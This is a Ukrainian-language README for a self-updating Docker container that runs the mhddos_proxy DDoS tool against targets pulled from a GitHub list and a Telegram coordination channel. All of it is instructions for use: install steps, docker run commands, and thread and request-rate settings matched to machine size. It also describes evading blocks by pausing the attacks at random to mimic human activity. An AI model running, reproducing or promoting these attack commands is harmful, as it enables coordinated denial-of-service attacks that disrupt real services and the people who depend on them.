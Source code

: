 # Опис docker

### ЯКЩО ВИ КОРИСТУВАЧ WINDOWS, ТО ЗАБУДЬТЕ ПРО ДОКЕР, БО ЦЕ ВІРТУАЛКА, ЯКА ЖРЕ УВЕСЬ ПРОЦЕССОР, ТА ЙДІТЬ СЮДИ: https://github.com/alexnest-ua/runner_for_windows  
### ЯКЩО ВИ КОРИСТУВАЧ LINUX - ЙДІТЬ СЮДИ: https://github.com/alexnest-ua/auto_mhddos_alexnest
  
### ЯКЩО ВИ ТАКИ ХОЧЕТЕ НАСИЛУВАТИ СВІЙ ПРОЦЕСОР - РОБІТЬ ТЕ ЩО НИЖЧЕ:  

ПОВНІСТЮ АВТООНОВЛЮВАНИЙ (оновлює цілі та себе) docker-контейнер для будь-яких машин, що керує [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy)  
Також він автоматично оновлює не лише цілі, а й скрипти з mhddos_proxy та MHDDoS  
Також скрипт імітує роботу людини (вимикає увесь ДДоС на 1-3 (рандомно) хвилин), тому знижується можливість блокування  
Скрипт розподіляє список машин по різним цілям: https://github.com/alexnest-ua/targets/blob/main/targets_docker  
Увесь source code знаходиться тут: https://github.com/alexnest-ua/auto_mhddos_alexnest/tree/docker  
  
[**Налаштування**](https://github.com/alexnest-ua/auto_mhddos_alexnest/tree/docker#%D0%BD%D0%B0%D0%BB%D0%B0%D1%88%D1%82%D1%83%D0%B2%D0%B0%D0%BD%D0%BD%D1%8F-%D0%B2%D1%81%D1%82%D0%B0%D0%BD%D0%BE%D0%B2%D0%BB%D0%B5%D0%BD%D0%BD%D1%8F)  
[**Запуск у фон**](https://github.com/alexnest-ua/auto_mhddos_alexnest/blob/docker/README.md#%D0%B7%D0%B0%D0%BF%D1%83%D1%81%D0%BA-%D0%BD%D0%B0-%D1%80%D0%BE%D0%B1%D0%BE%D1%82%D1%83-%D1%83-%D1%84%D0%BE%D0%BD%D1%96-247-%D0%BD%D0%B0-linux-%D1%81%D0%B5%D1%80%D0%B2%D0%B5%D1%80%D1%96-%D1%82%D0%B0-%D0%B4%D0%BE-%D0%B7%D0%B0%D0%B2%D0%B5%D1%80%D1%88%D0%B5%D0%BD%D0%BD%D1%8F-%D1%80%D0%BE%D0%B1%D0%BE%D1%82%D0%B8-%D0%BD%D0%B0-windows---%D0%BC%D0%BE%D0%B6%D0%BD%D0%B0-%D0%B7%D0%B0%D0%BA%D1%80%D0%B8%D0%B2%D0%B0%D1%82%D0%B8-%D1%82%D0%B5%D1%80%D0%BC%D1%96%D0%BD%D0%B0%D0%BB)  
[**Приклади команд НЕ у фон**](https://github.com/alexnest-ua/auto_mhddos_alexnest/blob/docker/README.md#%D0%BF%D1%80%D0%B8%D0%BA%D0%BB%D0%B0%D0%B4%D0%B8-%D0%BA%D0%BE%D0%BC%D0%B0%D0%BD%D0%B4-%D0%BD%D0%B5-%D1%83-%D1%84%D0%BE%D0%BD-%D0%B7-%D1%80%D1%96%D0%B7%D0%BD%D0%B8%D0%BC%D0%B8-%D0%BF%D0%B0%D1%80%D0%B0%D0%BC%D0%B5%D1%82%D1%80%D0%B0%D0%BC%D0%B8%D0%B4%D0%BB%D1%8F-linux-%D0%B4%D0%BE%D0%B4%D0%B0%D0%B2%D0%B0%D0%B9%D1%82%D0%B5-sudo-%D0%B0%D0%B1%D0%BE-%D0%BA%D1%80%D0%B0%D1%89%D0%B5-%D1%81%D1%82%D0%B0%D0%B2%D1%82%D0%B5-%D0%BD%D0%B0-%D0%BF%D1%80%D1%8F%D0%BC%D1%83-httpsgithubcomalexnest-uaauto_mhddos_alexnest)  

Канал, де координуються цілі: https://t.me/ddos_separ (звідти і беруться сюди цілі, тому якщо у вас на Linux запущено цей скрипт - то можете відпочивати, він все зробить за вас)  
Чат, де ви можете задати свої питання: https://t.me/+8swDHSe_ROI5MmJi  
Також можете писати мені в особисті у телеграм, я завжди усім відповідаю: @brainqdead  
  
Туторіал по створенню автоматичних та автономних Linux-серверів: https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5c  

## Налаштування (встановлення)
  
* щоб скачати на Windows / Mac:  
https://www.docker.com/get-started/ (якщо виникають якісь проблеми: пишіть мені @brainqdead (телеграм)

* щоб скачати на Linux-машину(але краще ставте напряму: https://github.com/alexnest-ua/auto_mhddos_alexnest ):  
```
sudo apt update -y
sudo apt upgrade -y
sudo curl -fsSL https://download.docker.com/linux/debian/gpg | sudo apt-key add -
sudo echo 'deb [arch=amd64] https://download.docker.com/linux/debian buster stable' | sudo tee /etc/apt/sources.list.d/docker.list
sudo apt update -y
sudo apt remove docker docker-engine docker.io -y
sudo apt install docker-ce -y
sudo systemctl unmask docker.service
sudo systemctl unmask docker.socket
sudo systemctl start docker.service
sudo systemctl start docker
sudo systemctl enable docker
sudo docker run hello-world
docker run -it --rm --pull always alexnestua/auto_mhddos
```
  
*чекаємо 5-10 хвилин поки все встановиться.*  

## Запуск на роботу у фоні (24/7 на Linux-сервері та до завершення роботи на Windows) - можна закривати термінал
Запуск автоматичного ДДоСу(без виведення на екран):  
```
docker run -itd --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest 
```

**!!!УВАГА!!!** контейнер підтримує наступні параметри (САМЕ У ТАКОМУ ПОРЯДКУ ТА ЛИШЕ У ТАКІЙ КІЛЬКОСТІ(мінімум 3)), але можно і без них:  
docker run -it --rm --pull always --name alexnest alexnestua/auto_mhddos [num_of_copies] [threads] [rpc] [debug]  
- num_of_copies - кількість атакуємих за один прохід цілей
- threads - кількість потоків на кожне ядро процесора
- rpc - кількість запитів на проксі перед відправкою на ціль
- debug - можливість дебагу (якщо хочете бачити повний інфу по атаці - у 4-ий параметр додайте --debug)
  
### Приклади команд з різними параметрами(для Linux додавайте sudo, або краще ставте на пряму: https://github.com/alexnest-ua/auto_mhddos_alexnest):

1. ***Для лінивих*** (буде обрано за замовчуванням: num_of_copies=1, threads=1500 rpc=1000 debug="" (1 ціль, 1500 потоків, 1000 запитів на проксі перед відправкою на ціль, без дебагу)
```
docker run -it --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest
```
**CPUs** - це ядра вашого процесора - зазвичай ядер у два рази менше ніж потоків

2. Слаба машина(1 CPU + 1-2 GB RAM), саме ці параметри за замовчуванням:
```
docker run -it --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest 1 1500 1000
```

3. Середня машина(2-4 CPUs + 2-8 GB RAM):
```
docker run -it --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest 1 3000 2000
```

4. Нормальна машина(4-8 CPUs + 8-16 GB RAM):
```
docker run -it --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest 2 5000 2000
```

5. Потужна машина(9+ CPUs + 16+ CB RAM):
```
docker run -it --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest all 5000 2500
```

Після цього, якщо хочете вбити процес - натискайте Ctrl+C  (у його відкритій вкладці)  

*також ви можете змінювати параметри на будь-які інші значення, але я рекомендую саме ці.*  
*також можете додавати останнім **4-тим** параметром --debug, що слідкувати за ходом атаки, наприклад:*  
```
docker run -it --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest 1 1500 1000 --debug
```

* Приклад БЕЗ параметру --debug:
![image](https://github.com/alexnest-ua/special_files/blob/main/screenshots/docker_no_debug.png?raw=true)
І після цього наступні 300 секунд НІЧОГО не буде виводитись, але це нормально
* Приклад З параметром --debug:
![image](https://github.com/alexnest-ua/special_files/blob/main/screenshots/docker_debug.png?raw=true)

* щоб подивитися що там працює у фоні(для Linux додайте sudo) та вбити процес:  
```
docker ps  -a
щоб вбити запущені раніше фонові підпроцеси на Linux прописуєте:  
sudo docker kill $(docker ps -aqf name=alexnestua)
або на Windows зайти у Docker Dekstop -> Containers / Apps -> Видалити container з ім'ям alexnestua
```



## Список цілей  

  
ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest підтримує єдиний [список цілей](https://github.com/alexnest-ua/targets/blob/main/targets_docker), який можна тримати на github і постійно оновлювати.  
  
    
Цілі не обов'язково видаляти із списку. Їх можна просто закоментувати і розкоментувати пізніше, якщо вони знов знадобляться. Скрипт використовує лише строки, які починаються не на #.  

## Thanks

Special thanks to https://github.com/OleksandrBlack and https://twitter.com/SprechenFuehrer  
